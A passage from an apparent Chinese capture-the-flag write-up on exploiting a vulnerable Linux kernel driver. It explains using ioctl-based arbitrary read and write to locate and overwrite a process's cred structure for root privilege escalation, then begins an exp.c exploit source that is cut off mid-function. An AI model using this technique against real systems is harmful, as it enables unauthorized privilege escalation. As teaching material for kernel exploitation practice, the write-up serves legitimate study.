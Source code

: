 一番努力之后终于找到了满足条件的地方，bss_list地址为`0xffffffffa0002420`，用这个obj我们可以读取`[0x000d00620000002e,0x000d00620000002e+0xffffffffa0002420)`范围内的地址的值

```
0xffffffffa0003090:     0x000d00620000002e     0xffffffffa0002420
0xffffffffa00030a0:     0x0000000000000500      0x000b006400000033
```

显然`bss_list`是满足这个条件的

![alloc](./1.png)

尝试多次分配，发现分配12次之后之前的slub缓存就用完了，会用Buddy分配新的一块区域供继续分配，至此我们的思路就有了，分配完这些内存然后`fork`一个进程，触发创建新的`cred`对象，这个对象地址一定在`0x*17df00`和`0x*1e3f100`之间，我们就可以爆破这块内存区域，寻找我们prctl设置的进程名，进而搜到cred。

下一步用任意地址读读取cred里前0x100的内容，修改前0x28字节为usr_buf。再用任意地址写写到free后的slab的fd，两次Malloc可以得到cred对象，把usr_buf拷贝进去后即可提权成功。

![root](./2.png)

#### exp.c

这里还有地方是我没想明白的，就是我以为自己修改的cred是子进程里的，没想到就是本进程的，之前一直在子进程起shell，卡了很久

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/prctl.h>       
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <sys/auxv.h> 
#include <sys/ioctl.h> 


#define MallocCmd  0x30000
#define FreeCmd    0x30001
#define WriteCmd   0x30002
#define ReadCmd    0x30003

#define BUFSZ   0x100

char usr_buf[BUFSZ];

typedef struct attr
{
    size_t addr;
    size_t size;
} Attr;

void Malloc(int fd,unsigned int idx,char* ini_buf)
{
    size_t input[4];
    input[0] = idx;
    input[1] = (size_t)ini_buf;
    ioctl(fd,MallocCmd,input);
    return;
}

void Malloc1(int fd,unsigned int idx,size_t* ini_buf)
```